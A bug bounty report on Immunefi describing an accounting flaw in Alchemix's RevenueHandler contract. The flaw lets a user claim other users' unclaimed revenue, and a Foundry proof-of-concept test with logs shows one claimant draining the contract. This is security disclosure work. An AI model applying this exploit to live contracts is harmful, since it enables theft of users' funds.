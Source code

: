 
# `RevenueHandler` counts unclaimed tokens as new revenue

Submitted on Sun May 12 2024 05:02:22 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31077

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
The `RevenueHandler` contract has a `checkpoint()` function that records revenue amounts for each token in each epoch. There is a mistake in the logic of non-alchemic tokens, because it assumes the entire token balance is new revenue for the epoch. This is wrong because the token balance includes pending revenue from previous epochs that have not yet been claimed. This allows users to claim more tokens than they should, which steals tokens from other users who try to claim later.

## Vulnerability Details
The `checkpoint()` function in `RevenueHandler` contains the following code snippet:


```solidity
uint256 thisBalance = IERC20(token).balanceOf(address(this));

// If poolAdapter is set, the revenue token is an alchemic-token
if (tokenConfig.poolAdapter != address(0)) {
    // Treasury only receives revenue if the token is an alchemic-token
    treasuryAmt = (thisBalance * treasuryPct) / BPS;
    IERC20(token).safeTransfer(treasury, treasuryAmt);

    // Only melt if there is an alchemic-token to melt to
    amountReceived = _melt(token);

    // Update amount of alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
} else {
    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
    amountReceived = thisBalance;

    // Update amount of non-alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][token] += amountReceived;
}
```

Notice that in the `else` case, the `epochRevenues[currentEpoch][token]` amount is incremented by the current token balance. As mentioned above, this is incorrect because the token balance also contains unclaimed revenue from previous epochs. Due to this mistake, the revenues past the first epoch will be inflated, which leads to an inflated `totalClaimable` value in the `_claimable()` function:

```solidity
uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
if (epochTotalVeSupply == 0) continue;
uint256 epochRevenue = epochRevenues[epochTimestamp][token];
uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
```

## Impact Details
Once an epoch has an inflated revenue, a malicious user can call `claim()` to take a large amount of tokens they do not deserve. This is a theft of other users' unclaimed yield. Since the malicious user would receive the tokens, no tokens would be left in the `RevenueHandler` for the other users to claim. See the PoC for an example.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test case that can be added to `RevenueHandler.t.sol`:


```solidity
function testNonAlchemicRevenueAccountingBug() external {
    uint256 revAmt = 1000e18;
    uint256 tokenId1 = _initializeVeALCXPosition(10e18);
    uint256 tokenId2 = _setupClaimableNonAlchemicRevenue(revAmt, bal);

    _jumpOneEpoch();
    revenueHandler.checkpoint();

    console.log("claimable 1 before:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 before:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance before:", IERC20(bal).balanceOf(address(revenueHandler)));

    revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), address(this));

    console.log("claimable 1 after:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 after:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance after:", IERC20(bal).balanceOf(address(revenueHandler)));

    uint256 claimable2 = revenueHandler.claimable(tokenId2, bal);
    vm.expectRevert("Not enough revenue to claim");
    revenueHandler.claim(tokenId2, bal, address(0),claimable2, address(this));
}
```

Running the command `forge test -vvv --match-test testNonAlchemicRevenueAccountingBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testNonAlchemicRevenueAccountingBug() (gas: 2569923)
Logs:
  claimable 1 before: 1000000000000000000000
  claimable 2 before: 1000000000000000000000
  revenueBalance before: 1000000000000000000000
  claimable 1 after: 0
  claimable 2 after: 1000000000000000000000
  revenueBalance after: 0
```

This shows that the first user can claim 100% of the tokens, preventing the second user from claiming anything.